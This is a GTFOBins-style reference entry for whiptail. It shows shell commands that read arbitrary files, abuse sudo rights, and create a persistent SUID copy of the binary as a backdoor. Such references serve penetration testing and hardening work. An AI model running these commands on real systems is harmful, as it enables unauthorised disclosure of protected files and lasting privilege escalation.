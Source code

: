 # GTFOBin: whiptail

The file is shown in an interactive TUI dialog made for displaying text, arrows can be used to scroll long content.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
whiptail --textbox --scrolltext "$LFILE" 0 0
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which whiptail) .

LFILE=file_to_read
./whiptail --textbox --scrolltext "$LFILE" 0 0
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo whiptail --textbox --scrolltext "$LFILE" 0 0
```